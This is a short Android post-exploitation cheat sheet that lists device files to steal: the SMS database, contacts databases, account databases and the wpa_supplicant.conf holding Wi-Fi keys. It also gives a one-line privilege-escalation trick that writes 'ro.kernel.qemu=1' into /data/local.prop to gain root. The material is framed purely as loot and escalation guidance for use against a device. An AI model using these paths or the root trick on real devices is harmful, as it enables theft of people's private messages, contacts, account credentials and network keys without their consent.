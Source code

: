 # Android

##Files to grab

###Text Messages (Needs Root):

```
/data/data/com.android.providers.telephony/databases/mmssms.db
/data/data/com.android.providers/telephony/databases/mmssms.db
```

###Contacts (Needs Root):

```
/data/data/com.android.providers.contacts/databases/contacts2.db
/data/data/com.android.providers.contacts/databases/contacts.db
/data/data/android.providers.contacts/databases
```

###Accounts (Needs Root):

```
/data/system/users/0/accounts.db
/data/system/accounts.db
```

###Wifi Keys (Needs Root):

```
/data/misc/wifi/wpa_supplicant.conf
```

###Local System Settings:

```
/data/local.prop
```

If you can write to this file the following line will grant root:

```
echo "ro.kernel.qemu=1" > /data/local.prop
```

###Device Settings:

```
/system/build.prop
```

